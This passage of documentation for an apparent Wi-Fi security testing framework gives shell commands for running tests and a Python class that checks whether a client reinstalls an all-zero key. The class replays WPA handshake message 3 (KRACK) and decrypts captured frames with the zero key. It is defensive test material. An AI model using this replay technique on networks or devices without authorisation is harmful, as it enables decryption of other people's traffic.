 #### Configuration
Load configuration ```wpa3-personal-pmf```, enforcing usage of Wi-Fi PMF:
```
cd setup; ./load-config.sh wpa3-personal-pmf
```

#### Execution
Let us start an access point which we will test:
```
./hostap.py wlan0 --ap
```
We can now run our client, which will perform the test:
```
./run.py wlan1 example-pmf-deauth
```

## All-Zero Key Reinstallation Vulnerability

Test for key reinstallation vulnerabilities against a client station.

Specifically, we test if the client encrypts frames with an all-zero pairwise key.

This example tests weaknesses in clients, by acting as an access point

#### Definition
```python
class ExampleKrackZerokey(Test):
	"""Test if a client is vulnerable to an all-zero key reinstallation attack."""
	name = "example-krack-zero-key"
	kind = Test.Authenticator
	
	def __init__(self):
		super().__init__([
			# Replay 4-Way Handshake Message 3/4.
			Action( trigger=Trigger.Connected, action=Action.Function ),
			# Receive all frames and search for one encrypted with an all-zero key.
			Action( trigger=Trigger.NoTrigger, action=Action.Receive ),
			# When we receive such a frame, we can terminate the test.
			Action( trigger=Trigger.Received, action=Action.Terminate )
		])


	def resend(self, station):
		# Resend 4-Way Handshake Message 3/4.
		# https://w1.fi/cgit/hostap/plain/tests/cipher-and-key-mgmt-testing.txt
		station.wpaspy_command("RESEND_M3 " + station.clientmac )


	def receive(self, station, frame):
		if frame[Dot11].addr2 != station.clientmac:
			return False
		if not frame.haslayer(Dot11CCMP):
			return False
		# We now received a CCMP-encrypted frame from our client.
		# Let us try to decrypt it with an all-zero key.
		key = b"\x00"*16
		plaintext = decrypt_ccmp(frame.getlayer(Dot11),tk=key)
		if plaintext is None: return False
		# We received a valid plaintext frame!
		log(STATUS, plaintext.summary(), color="orange")
		log(STATUS,'Client encrypted a frame with an all-zero key!', color="green")
		return True


	def generate(self, station):
```